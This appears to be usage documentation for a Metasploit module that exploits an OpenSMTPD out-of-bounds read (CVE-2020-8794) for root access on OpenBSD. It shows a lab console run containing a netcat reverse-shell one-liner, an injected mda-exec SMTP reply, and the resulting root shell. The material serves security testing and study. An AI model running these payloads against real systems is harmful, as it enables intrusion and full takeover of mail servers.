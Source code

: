 ## Vulnerable Application

### Description

This module exploits an out-of-bounds read of an attacker-controlled
string in OpenSMTPD's MTA implementation to execute a command as the
root user.

### Setup

1. Download [OpenBSD 6.6](https://cdn.openbsd.org/pub/OpenBSD/6.6/amd64/install66.iso)
2. Install the system

### Targets

```
Id  Name
--  ----
0   OpenSMTPD >= commit 80c6a60c
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**SESSION**

Set this to a valid session ID on an OpenBSD target.

## Scenarios

### OpenSMTPD 6.6.0 on OpenBSD 6.6

```
msf5 > use exploit/unix/local/opensmtpd_oob_read_lpe
msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > show missing

Module options (exploit/unix/local/opensmtpd_oob_read_lpe):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > set session -1
session => -1
msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > run

[+] mkfifo /tmp/kxhzzn; nc 172.16.249.1 4444 0</tmp/kxhzzn | /bin/sh >/tmp/kxhzzn 2>&1; rm /tmp/kxhzzn
[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] OpenSMTPD 6.6.0 is vulnerable to CVE-2020-8794
[+] The target appears to be vulnerable.
[*] Started service listener on 0.0.0.0:25
[*] Executing local sendmail(8) command: /usr/sbin/sendmail 'fscgwvlxm@[172.16.249.1]' < /dev/null && echo true
[*] Client 172.16.249.137:20976 connected
[*] Faking SMTP server and sending exploit
[*] Sending: 220
[*] Expecting: /EHLO /
[+] Received: EHLO
[*] Sending: 250
[*] Expecting: /MAIL FROM:<[^>]/
[+] Received: foo.localdomain
MAIL FROM:<w
[*] Sending: 553-
553

dispatcher: local_mail
type: mda
mda-user: root
mda-exec: mkfifo /tmp/fmszt; nc 172.16.249.1 4444 0</tmp/fmszt | /bin/sh >/tmp/fmszt 2>&1; rm /tmp/fmszt; exit 0

[*] Disconnecting client 172.16.249.137:20976
[*] Command shell session 1 opened (172.16.249.1:4444 -> 172.16.249.137:41966) at 2020-03-03 13:24:28 -0600
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
OpenBSD foo.localdomain 6.6 GENERIC#353 amd64
```
